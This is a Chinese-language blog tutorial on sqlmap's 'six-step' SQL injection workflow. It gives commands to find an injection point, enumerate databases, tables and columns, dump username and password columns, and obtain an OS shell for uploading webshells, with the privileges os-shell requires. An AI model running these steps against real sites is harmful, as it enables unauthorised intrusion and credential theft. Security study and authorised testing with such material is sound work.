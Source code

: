 ```yaml
---
title: sql注入——sqlmap6步注入法
date: 2020-01-17 18:43:43
tags: [Web安全,sql注入,sqlmap]
---
```


​	前段时间一直在研究Webshell相关内容，涉及到使用sql注入进行getshell，因此准备对于sql注入过程做一个比较系统的总结，sql注入部分主要分为sqlmap6步法和手工注入法两部分，本文将主要针对sqlmap注入法进行介绍，手工注入法将在[下一篇文章中进行介绍]()。

### sqlmap注入6步法

​	首先要进行介绍的就是sql注入到getshell的常见6步法，该方法涵盖了整个过程常见的全部关键步骤。本文主要介绍使用sqlmap工具来进行sql注入的过程。

**1.判定是否存在注入点**

~~~shell
# 对提供的网址进行注入点测试   
sqlmap -u http://xxx/id=??? --batch
	--batch:表示全部需要人机交互的部分采用默认选项进行选择
	--cookie: cookie为可选项，如果要使用登录的请求应该先使用brupsuite来进行抓包查看ccokie写入该参数
	--r: post方式进行注入，先使用bp抓到完整的包，然后保存为一个文件，这里直接使用-r进行指定
~~~

![](https://github.com/AnchoretY/images/blob/master/blog/sqlmap注入点检测2.png?raw=true)

输出结果：

![](https://github.com/AnchoretY/images/blob/master/blog/sqlmap注入点检测.png?raw=true)

**2.数据库名获取**

~~~shell
# 获取数据库名称
sqlmap -u "http://xxx/id=???"   --current-db --batch
	--cunrrent-db：进行数据库探测选项
~~~

![](https://github.com/AnchoretY/images/blob/master/blog/sqlmap数据库探测2.png?raw=true)

输出结果：

![](https://github.com/AnchoretY/images/blob/master/blog/sqlmap数据探测.png?raw=true)

**3.获取数据库中的表名**

~~~shell
# 获取表名
sqlmap -u "http://xxx/id=???"  --D 数据库名称 --tables --batch
	-D：指定要探测数据库名称
	--tables：进行表名探索选项
~~~

![](https://github.com/AnchoretY/images/blob/master/blog/sqlmap数据表探测2.png?raw=true)

输出结果：

![](https://github.com/AnchoretY/images/blob/master/blog/sqlmap数据表探测.png?raw=true)

**4.对选定表的列名进行获取**

~~~shell
# 获取表中字段名称
sqlmap -u "http://xxx/id=???"  --D 数据库名称 --T 表名 --columns --batch
	-D：指定要进行探索的表
	-columns：进行字段名称探索选项
~~~

![](https://github.com/AnchoretY/images/blob/master/blog/sqlmap字段探测2.png?raw=true)

输出结果：

![](https://github.com/AnchoretY/images/blob/master/blog/sqlmap字段探测.png?raw=true)

**5.探测用户名密码**

~~~shell
# 获取用户名和密码并保存到指定文件
sqlmap -u "http://xxx/id=???"  --D 数据库名称 --T 表名 --C 用户名列名,密码列名 --dump
	-C:指定选择的列名
	--dump：将内容输出到文件
~~~

![](https://github.com/AnchoretY/images/blob/master/blog/sqlmap用户名密码数据读取2.png?raw=true)

输出结果：

![](https://github.com/AnchoretY/images/blob/master/blog/sqlmap用户名密码数据读取.png?raw=true)

**6.获取shell**

​	os-shell只是一个辅助上传大马、小马的辅助shell，可以使用也可以直接利用数据库备份功能人工上传大、小马不进行这一步。

~~~shell
# 获取os-shell
sqlmap -u "http://xxx/id=???" --os-shell
~~~

​	这里使用os-shell需要很高的权限才能成功使用。具体需要的权限包括：

> 1.网站必须是root权限
>
> 2.了解网站的绝对路径  
>
> 3.GPC为off，php主动转义的功能关闭
>
> 4.secure_file_priv= 值为空

​	使用sqlmap存在一种缓存机制，如果完成了一个网址的一个注入点的探测，下次再进行探测将直接使用上次探测的结果进行展示，而不是重新开始探测，因此有时候显示的结果并不是我们当下探测进型返回的，面对这种情况就加上选项。

~~~shell
--purge 清除之前的缓存日志
~~~



​	本文中提到的是一个标准的简单环境的sql注获取方式，但是在实际环境中，进行sql注入还存在权限不足、不知道绝对路径等关键问题，这些问题将在[sql注入——getshell中的问题]中进行具体讲述。